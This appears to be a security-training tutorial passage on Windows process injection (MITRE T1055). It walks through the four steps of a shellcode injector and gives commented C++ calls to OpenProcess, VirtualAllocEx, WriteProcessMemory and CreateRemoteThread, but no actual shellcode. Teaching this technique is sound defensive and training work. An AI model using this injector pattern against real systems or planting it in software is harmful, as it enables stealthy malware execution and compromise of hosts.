 There are many other forms of process injection outlined by [MITRE T1055](https://attack.mitre.org/techniques/T1055/).

Four Steps of Process Injection:
1. Open a target process with all access rights
2. Allocate target process memory for the shellcode
3. Write shellcode to allocated memory in the target process
4. execute the shellcode using a remote thread
The steps can also be broken down graphically to depict how Windows API calls interact with process memory.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/ba04c5ef220c10b3e174bd1ca77959c6.png)

Shell Code Injector: 
At step one of shellcode injection, we need to open a target process using special parameters. `OpenProcess` is used to open the target process supplied via the command-line.

```cpp
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```
At step two, we must allocate memory to the byte size of the shellcode. Memory allocation is handled using `VirtualAllocEx`. Within the call, the `dwSize` parameter is defined using the `sizeof` function to get the bytes of shellcode to allocate.
```cpp
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step three, we can now use the allocated memory region to write our shellcode. `WriteProcessMemory` is commonly used to write to memory regions.

```cpp
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

At step four, we now have control of the process, and our malicious code is now written to memory. To execute the shellcode residing in memory, we can use `CreateRemoteThread`; threads control the execution of processes.
```cpp
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

